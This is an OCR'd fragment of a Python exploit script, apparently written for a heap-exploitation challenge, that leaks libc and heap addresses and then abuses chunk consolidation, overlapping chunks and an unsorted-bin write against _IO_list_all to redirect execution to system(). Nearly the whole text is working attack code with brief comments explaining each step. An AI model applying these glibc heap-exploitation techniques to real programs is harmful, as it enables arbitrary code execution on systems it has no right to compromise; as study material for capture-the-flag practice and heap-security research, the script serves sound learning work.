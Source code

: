 ```python
    optalloc()  # 1
    optalloc()  # 2
    optalloc()  # 3
    optremove(0) # -0
    optremove(2) # -2
    optalloc()  # 0
    leakptrs = optshow(0)
    libcbase = leakptrs[0] - addrs['mainarena']
    heapbase = leakptrs[1] - 0x140
    return (libcbase, heapbase)    

def heapexp():
    global libcbase
    global heapbase
    
    addrs['system'] += libcbase
    payload = p64(0) * 4
    payload += p64(heapbase + 0x220 - 0x18)
    payload += p64(addrs['system'])
    optedit(3, 0x0, payload)
    
    optalloc()  # 2
    # By pass prev_size vs size when dealing with chunk 1 later
    # If it's freed, it'll be checked
    payload = 'A' * (0x1a0 - 0x158)
    payload += p64(0x100)
    optedit(2, 0x13371, payload)

    # Consolidate 1 and 2 to get size 0x140    
    optremove(1)
    optremove(2)

    # Overwrite first time
    chunk1 = heapbase + 0xa0
    payload = p64(chunk1)
    payload = payload.ljust(144, 'B')
    optedit(0, chunk1, payload)

    # Populate chunk 1 with the correct fd and bk
    payload = p64(heapbase)
    optalloc()  # 1
    optedit(1, heapbase, payload)

    # Free 3 so it consolidate with top chunk and chunk 1
    # because of the incorrect size. After this, chunk 1
    # will overlap with top chunk. Another alloc will make
    # chunk 2 the same as chunk 1
    optremove(3)
    optalloc()  # 2
    
    # Do the trick
    optalloc()  # 3

    # Set prev_in_use of chunk 3 to 0
    # This also put chunk 1/2 to unsorted bin
    optremove(2)
    
    # Modify prev_size of chunk 3
    addrs['iolistall'] += libcbase
    print('iolistall @ {:#x}'.format(addrs['iolistall']))
    payload = p64(addrs['iolistall'] - 0x10)
    payload += 'A' * 8
    optedit(1, 0x13373, payload)   
```